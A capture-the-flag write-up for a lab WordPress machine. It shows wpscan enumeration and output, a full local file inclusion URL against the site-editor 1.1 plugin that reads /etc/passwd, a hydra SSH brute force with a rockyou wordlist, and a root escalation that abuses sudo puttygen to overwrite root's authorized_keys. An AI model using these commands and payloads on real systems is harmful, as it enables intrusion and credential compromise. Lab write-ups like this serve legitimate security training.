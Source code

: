 ```yaml
---
sticker: emoji//1f36c
---
```

# ENUMERATION


## OPEN PORTS

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031135702.png)
2 open ports, one is a website and the other is ssh, let's fuzz the website

## FUZZING

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031135726.png)

Seems like a WordPress page, let's take a look at it:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031135814.png)

First part seems off, let's look at the source code:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031135908.png)

Nothing too weird, let's save it in case we need it further, now, let's take a look at 
`wp-login.php`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031140023.png)

We need to add `asucar.dl` to `/etc/hosts`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031140104.png)


Knowing that the site uses WordPress, let's use `wpscan` to enumerate the website:


```ad-hint

##### USED COMMAND

`wpscan --url http://asucar.dl/ --random-user-agent`

##### OUTPUT

[+] URL: http://asucar.dl/ [172.17.0.2]
[+] Started: Thu Oct 31 19:12:55 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://asucar.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://asucar.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 |  - http://asucar.dl/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 |  - http://asucar.dl/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://asucar.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://asucar.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | [!] Directory listing is enabled
 | Style URL: http://asucar.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://asucar.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 


```

So, important info would be the following:

```ad-important

1. Apache/2.4.59 server(DEBIAN)
2. XML-RPC enabled and directory listing enabled for `http://asucar.dl/wp-content/uploads`
3. Site uses wordpress 6.5.3  with the `twentytwentyfour` theme.
4. `site-editor` plugin not updated running version 1.1
```


# EXPLOITATION


So, once we've enumerated all the info in the WordPress website, let's begin with exploitation, first, let's use `searchsploit` to lookup any exploit regarding that site editor version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142025.png)

Nice, we got a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]]regarding this version, let's take a look at the exploit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142212.png)

So, the usage would be:

```ad-important

# USAGE

`http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

# asucar.dl exploitation:

`http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```


Let's exploit it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142325.png)

Nice, we were able to execute the [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]], we found user `curiosito`

Let's use hydra and try to bruteforce the ssh login:


```ad-hint

##### USED COMMAND

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

##### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142628.png)


```

Simple password, seems like the user didn't have that much security, let's log in to ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142733.png)

Nice, we can begin with PRIVESC




# PRIVILEGE ESCALATION



## SUDO -L

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031142756.png)

We can run `puttygen`, `puttygen` is used to generate ssh keys, let's generate one for root user:

```ad-hint

##### USED


`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked`

`puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys`

`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked
`
`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh`

`ssh -i /home/curiosito/.ssh/hacked root@localhost`


##### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241031143301.png)


```



And that would be it for this CTF!

